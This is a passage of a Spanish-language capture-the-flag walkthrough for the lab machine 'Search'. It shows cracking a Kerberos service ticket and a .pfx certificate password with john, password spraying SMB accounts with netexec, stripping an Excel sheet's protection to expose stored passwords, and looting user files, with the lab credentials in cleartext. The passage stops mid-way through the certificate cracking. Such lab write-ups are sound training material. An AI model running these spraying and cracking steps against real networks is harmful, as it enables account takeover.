be9c1cc0ecdc79cf8d82ce0892b8105ac5a0e151dfd38260cf9a4a6ac23e99e48e5811aba536d469b24fd8f20a9c9e6a8f6f36783d8602cf1e9c18e2e461b4293549d9222311f34758c46b79e334499836e58dd92447d9dad8830011ba72a3c2035e21e5a0817af98a6c8d57c88e2e5fa9e08817feb13707d349a14ccc389676a8bf76e96cb4a87de29962af54bd20aa68c28d95f94452574a11aed5e50afbd442b48f5e6ef1a5fb851e09a714974c2237669af175200224a4b16e6ebe2790acf1f64dda7a538744dbefad15e5ed7ca5e17e4f090581c665b0efe4ce92c951a4d9f623e87a5f2f7e865a1b9e3517a58b8518693feb7efc2a581d220560ecf418f970aa2c75fefd9b27942d69919df41517928b44c46a42bd47dc4fb1d205c3ef884f64da0a660702c3ecf14d6529dce447e05ffe83e9de20870c32aecdfb3530ad0fcf3b30241fbf6880c9ab104b16258a872ae48cf8ff867f00f70434e7e53137642986d912b38bdf40f84971c03ae7cab1158eea257433f5f5da1d060b7e0fea4e4a2db84d7c16ccfdeb8945d868af5ebcf1046e1f76fca7c3c1bd760aee1f257068713c21f83476a0fbed372df7db67fe059a88d68ce168181e1199c02e6016e44aaa5411bf793ac5abe4134dc4cd03117e388be7b4797dce0be8085a05dd541b1207952aba1318118021aa9c02572e5ee50f86f68d003861bf70bf799c141c592e72f963ec7fd4f9c647be39a69508b5e3141175a85fcdadb78befb9e3e54fd225bdb7e7a2e326c3dc77032c36b721e69941694404329bec91277d67f8fcc581f6defa3450f083652ae8a36187524a2d32
```

Con `john` podemos intentar crackear el TGS y vemos que conseguimos una credencial.
```console
john -w=/usr/share/wordlists/rockyou.txt hash.web_svc
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
@3ONEmillionbaby (?)
1g 0:00:00:07 DONE (2024-12-04 18:55) 0.1333g/s 1532Kp/s 1532Kc/s 1532KC/s @421eduymayte619..@#ann!#
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Nos apuntamos este combo `web_svc:@3ONEmillionbaby`

Podemos comprobar la validez de esta credencial con `netexec`
```console
nxc smb 10.129.121.52 -u web_svc -p '@3ONEmillionbaby'
SMB         10.129.121.52   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.129.121.52   445    RESEARCH         [+] search.htb\web_svc:@3ONEmillionbaby
```
# SMB Enumeration (again)
Ahora que tenemos otra credencial, podemos probar si tenemos acceso al recurso `helpdesk` que habíamos visto antes por SMB

Seguimos sin tener acceso a ese recurso, y antes podemos comprobar que `web_svc` no tiene un directorio en `RedirectedFolders$`
```console
smbmap -H 10.129.121.52 -u 'web_svc' -p '@3ONEmillionbaby' --no-banner
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.129.121.52:445	Name: research.search.htb 	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	CertEnroll                                        	READ ONLY	Active Directory Certificate Services share
	helpdesk                                          	NO ACCESS	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	RedirectedFolders$                                	READ, WRITE	
	SYSVOL                                            	READ ONLY	Logon server share
```

## Password Spraying
Podemos con `netexec` comprobar si algún otro usuario está utilizando esta credencial, y vemos que sí.
```console
nxc smb 10.129.121.52 -u users.txt -p '@3ONEmillionbaby' --continue-on-success
SMB         10.129.121.52   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Tristan.Davies:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [+] search.htb\web_svc:@3ONEmillionbaby
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Jordan.Gregory:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Claudia.Pugh:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Angie.Duffy:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Kaylin.Bird:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Isabela.Estrada:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Haven.Summers:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Kayley.Ferguson:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Crystal.Greer:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Tristen.Christian:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Judah.Frye:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Maci.Graves:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Sierra.Frye:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Angel.Atkinson:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Braeden.Rasmussen:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Keith.Hester:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Tyshawn.Peck:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Camren.Luna:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Cesar.Yang:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Vincent.Sutton:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Joy.Costa:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Abby.Gonzalez:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Keely.Lyons:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Cade.Austin:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Jeramiah.Fritz:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Eve.Galvan:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Colby.Russell:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Aarav.Fry:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Gunnar.Callahan:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Ada.Gillespie:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Annabelle.Wells:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Hunter.Kirby:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Melanie.Santiago:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Kylee.Davila:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Hope.Sharp:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Zain.Hopkins:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\German.Rice:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Jolie.Lee:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Hugo.Forbes:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Tori.Mora:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Yaritza.Riddle:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Abbigail.Turner:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Claudia.Sharp:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Desmond.Bonilla:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Monique.Moreno:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Charlee.Wilkinson:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Taniya.Hardy:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Lorelei.Huang:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Jayla.Roberts:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Lillie.Saunders:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Dax.Santiago:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Eliezer.Jordan:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Scarlett.Parks:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Chanel.Bell:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Natasha.Mayer:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Maren.Guzman:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Sage.Henson:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Katelynn.Costa:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Cadence.Conner:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Amari.Mora:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Belen.Compton:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Elisha.Watts:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Marshall.Skinner:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Frederick.Cuevas:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Savanah.Knox:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Amare.Serrano:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Lizeth.Love:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Maeve.Mann:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Sonia.Schneider:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Armando.Nash:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Prince.Hobbs:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Griffin.Maddox:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Yareli.Mcintyre:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Rene.Larson:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Sandra.Wolfe:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Jamar.Holt:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Alfred.Chan:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Jermaine.Franco:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Sarai.Boone:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Saniyah.Roy:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Kyler.Arias:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Kaitlynn.Lee:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Celia.Moreno:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Margaret.Robinson:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Blaine.Zavala:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Bobby.Wolf:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Arielle.Schultz:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Lane.Wu:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Edith.Walls:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Cameron.Melendez:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Antony.Russo:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Savanah.Velazquez:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Abril.Suarez:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Chace.Oneill:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Cortez.Hickman:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Eddie.Stevens:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Reginald.Morton:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Trace.Ryan:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Payton.Harmon:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Santino.Benjamin:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\krbtgt:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Guest:@3ONEmillionbaby STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Administrator:@3ONEmillionbaby STATUS_LOGON_FAILURE
```

Tenemos otro combo, `Edgar.Jacobs:@3ONEmillionbaby`

Vemos que este usuario pertenece a un grupo llamado `London-HelpDesk`, vamos a ver que hay aquí dentro.


Tenemos acceso al recurso `helpdesk`
```console
smbmap -H 10.129.121.52 -u 'Edgar.Jacobs' -p '@3ONEmillionbaby' --no-banner
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.129.121.52:445	Name: research.search.htb 	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	CertEnroll                                        	READ ONLY	Active Directory Certificate Services share
	helpdesk                                          	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	RedirectedFolders$                                	READ, WRITE	
	SYSVOL                                            	READ ONLY	Logon server share
```

Este recurso está vacío.
```console
smbclient \\\\10.129.121.52\\helpdesk -U 'edgar.jacobs%@3ONEmillionbaby'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  Dc        0  Tue Apr 14 12:24:23 2020
  ..                                 Dc        0  Tue Apr 14 12:24:23 2020

		3246079 blocks of size 4096. 768301 blocks available
```

En el directorio personal de este usuario en el recurso `RedirectedFolders$` encontramos un archivo `.xlsx`, nos lo descargamos.
```console
smb: \edgar.jacobs\Desktop\> dir
  .                                 DRc        0  Mon Aug 10 12:02:16 2020
  ..                                DRc        0  Mon Aug 10 12:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 22:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 12:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 22:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 12:35:44 2020

		3246079 blocks of size 4096. 768299 blocks available
smb: \edgar.jacobs\Desktop\> get Phishing_Attempt.xlsx
getting file \edgar.jacobs\Desktop\Phishing_Attempt.xlsx of size 23130 as Phishing_Attempt.xlsx (117.6 KiloBytes/sec) (average 117.6 KiloBytes/sec)
```

## Bypassing Microsoft Excel Protection
Vemos que es un archivo excel 2007+
```console
file Phishing_Attempt.xlsx
Phishing_Attempt.xlsx: Microsoft Excel 2007+
```

Abriendo este archivo con `libreoffice` vemos que está protegido por contraseña y que se nos está ocultando la columna `C`


Podemos encontrar en [esta pregunta en Microsoft](https://techcommunity.microsoft.com/discussions/excelgeneral/how-to-unprotect-excel-sheet-if-forgot-the-password/4180681) como podemos desproteger un archivo de este tipo.

> You can just **right click the xlsx file** and choose to **open it with a ZIP editor**.  
> I use and recommend 7-zip.
> 
> Thereafter, the procedure is the same as explained by _EdwardGreen_ and _ToddSumrall_, i.e.:
> 
> 1. Find the directory called \xl\worksheets\ and spot the (first) XML file related to the sheet you want to unlock.
> 2. Right-click the XML file and choose EDIT -> your text editor will open the XML file.
> 3. Inside the XML file, find the "sheetProtection" tag and entirely delete it (i.e. from the "<" symbol just before "sheetProtection", to the nextcoming ">" symbol, both included).
> 4. Save the XML file
> 5. Close the XML file and when prompted, confirm you want to reload the modified xml file into the xlsx archive.

Entonces primero vamos a descomprimir el archivo excel.
```console
unzip Phishing_Attempt.xlsx
Archive:  Phishing_Attempt.xlsx
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: xl/workbook.xml
  inflating: xl/_rels/workbook.xml.rels
  inflating: xl/worksheets/sheet1.xml
  inflating: xl/worksheets/sheet2.xml
  inflating: xl/theme/theme1.xml
  inflating: xl/styles.xml
  inflating: xl/sharedStrings.xml
  inflating: xl/drawings/drawing1.xml
  inflating: xl/charts/chart1.xml
  inflating: xl/charts/style1.xml
  inflating: xl/charts/colors1.xml
  inflating: xl/worksheets/_rels/sheet1.xml.rels
  inflating: xl/worksheets/_rels/sheet2.xml.rels
  inflating: xl/drawings/_rels/drawing1.xml.rels
  inflating: xl/charts/_rels/chart1.xml.rels
  inflating: xl/printerSettings/printerSettings1.bin
  inflating: xl/printerSettings/printerSettings2.bin
  inflating: xl/calcChain.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml
```

Ahora vamos al directorio `xl/worksheets` y modificamos el archivo `sheet2.xml` ya que queremos quitar la protección del segundo "sheet" (no me sale ahora la palabra en español).

Tenemos que borrar la etiqueta `sheetProtection` entera.


Una vez borrada, podemos comprimir todos los archivos en un nuevo archivo llamado `excel.xlsx` (por ejemplo)
```console
zip -r excel.xlsx *
  adding: [Content_Types].xml (deflated 79%)
  adding: docProps/ (stored 0%)
  adding: docProps/core.xml (deflated 47%)
  adding: docProps/app.xml (deflated 52%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 60%)
  adding: xl/ (stored 0%)
  adding: xl/sharedStrings.xml (deflated 55%)
  adding: xl/drawings/ (stored 0%)
  adding: xl/drawings/_rels/ (stored 0%)
  adding: xl/drawings/_rels/drawing1.xml.rels (deflated 39%)
  adding: xl/drawings/drawing1.xml (deflated 58%)
  adding: xl/styles.xml (deflated 89%)
  adding: xl/printerSettings/ (stored 0%)
  adding: xl/printerSettings/printerSettings1.bin (deflated 67%)
  adding: xl/printerSettings/printerSettings2.bin (deflated 67%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 80%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet2.xml (deflated 73%)
  adding: xl/worksheets/sheet1.xml (deflated 79%)
  adding: xl/worksheets/_rels/ (stored 0%)
  adding: xl/worksheets/_rels/sheet2.xml.rels (deflated 42%)
  adding: xl/worksheets/_rels/sheet1.xml.rels (deflated 55%)
  adding: xl/charts/ (stored 0%)
  adding: xl/charts/style1.xml (deflated 90%)
  adding: xl/charts/chart1.xml (deflated 77%)
  adding: xl/charts/_rels/ (stored 0%)
  adding: xl/charts/_rels/chart1.xml.rels (deflated 49%)
  adding: xl/charts/colors1.xml (deflated 73%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 74%)
  adding: xl/calcChain.xml (deflated 55%)
  adding: xl/workbook.xml (deflated 60%)
```

Ahora si lo abrimos en `libreoffice` vemos que sigue faltando la columnda `C` pero ya no sale el candado en la zona de abajo, por lo cual ya no está protegido.


Podemos expandir la columna que faltaba y vemos varias contraseñas.


Podemos hacer unas listas y probar la combinación de credenciales que vemos en el excel con `netexec`

Podemos usar el parámetro `--no-bruteforce` para que no se pruebe todas las combinaciones de usuario y contraseña, si no que pruebe el primer usuario de la lista con la primera contraseña de la lista, el segundo usuario de la lista con la segunda contraseña de la lista y así.

```console
nxc smb 10.129.121.52 -u users_excel.txt -p passwords_excel.txt --continue-on-success --no-bruteforce
SMB         10.129.121.52   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Payton.Harmon:;;36!cried!INDIA!year!50;; STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Cortez.Hickman:..10-time-TALK-proud-66.. STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Bobby.Wolf:??47^before^WORLD^surprise^91?? STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Margaret.Robinson://51+mountain+DEAR+noise+83// STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Scarlett.Parks:++47|building|WARSAW|gave|60++ STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Eliezer.Jordan:!!05_goes_SEVEN_offer_83!! STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Hunter.Kirby:~~27%when%VILLAGE%full%00~~ STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [+] search.htb\Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Annabelle.Wells:==95~pass~QUIET~austria~77== STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Eve.Galvan://61!banker!FANCY!measure!25// STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Jeramiah.Fritz:??40:student:MAYOR:been:66?? STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Abby.Gonzalez:&&75:major:RADIO:state:93&& STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Joy.Costa:**30*venus*BALL*office*42** STATUS_LOGON_FAILURE
SMB         10.129.121.52   445    RESEARCH         [-] search.htb\Vincent.Sutton:**24&moment&BRAZIL&members&66** STATUS_LOGON_FAILURE
```

Podemos revisar el directorio personal de este usuario del recurso `RedirectedFolders$` y vemos la flag de usuario, nos la vamos a descargar.
```console
smbclient \\\\10.129.121.52\\'RedirectedFolders$' -U 'sierra.frye%$$49=wide=STRAIGHT=jordan=28$$18'
Try "help" to get a list of possible commands.
smb: \> cd sierra.frye
smb: \sierra.frye\> dir
  .                                  Dc        0  Thu Nov 18 02:01:46 2021
  ..                                 Dc        0  Thu Nov 18 02:01:46 2021
  Desktop                           DRc        0  Thu Nov 18 02:08:00 2021
  Documents                         DRc        0  Fri Jul 31 16:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 16:45:36 2020
  user.txt                           Ac       33  Thu Nov 18 01:55:27 2021

		3246079 blocks of size 4096. 768029 blocks available
smb: \sierra.frye\> get user.txt
getting file \sierra.frye\user.txt of size 34 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

La podemos visualizar.
```console
cat -p user.txt
628fc3ec5a454f2...
```

## User Pivoting
## Interesting Certificates
En el directorio `Downloads\backups` podemos ver que también encontramos un archivo `.pfx`, este fichero es un contenedor que tiene un certificado y las claves privadas asociadas, eso sí, está protegido por contraseña. También encontramos un archivo `.p12` que es mismo que `.pfx` pero utiliza extensiones distintas, ambos utilizan el formato `PKCS#12` que es el estandar.

```console
smb: \sierra.frye\> cd downloads
smb: \sierra.frye\downloads\> dir
  .                                 DRc        0  Fri Jul 31 16:45:36 2020
  ..                                DRc        0  Fri Jul 31 16:45:36 2020
  $RECYCLE.BIN                     DHSc        0  Tue Apr  7 20:04:01 2020
  Backups                           DHc        0  Mon Aug 10 22:39:17 2020
  desktop.ini                      AHSc      282  Fri Jul 31 16:42:18 2020

		3246079 blocks of size 4096. 768027 blocks available
smb: \sierra.frye\downloads\> cd backups
smb: \sierra.frye\downloads\backups\> dir
  .                                 DHc        0  Mon Aug 10 22:39:17 2020
  ..                                DHc        0  Mon Aug 10 22:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 17:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 22:39:17 2020

		3246079 blocks of size 4096. 768027 blocks available
smb: \sierra.frye\downloads\backups\> get search-RESEARCH-CA.p12
getting file \sierra.frye\downloads\backups\search-RESEARCH-CA.p12 of size 2643 as search-RESEARCH-CA.p12 (16.2 KiloBytes/sec) (average 16.2 KiloBytes/sec)
smb: \sierra.frye\downloads\backups\> get staff.pfx
getting file \sierra.frye\downloads\backups\staff.pfx of size 4326 as staff.pfx (26.4 KiloBytes/sec) (average 21.3 KiloBytes/sec)
```

## Cracking the certificate password
Obviamente la contraseña no es vacía.
```console
openssl pkcs12 -info -in staff.pfx -nodes

Enter Import Password:
MAC: sha1, Iteration 2000
MAC length: 20, salt length: 20
Mac verify error: invalid password?
```

Podemos utilizar `pfx2john` para extraer el hash de la contraseña a un archivo e intentar crackearlo.
```console
pfx2john staff.pfx > hash
```

Después de un ratito, podemos crackear el hash.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (staff.pfx)
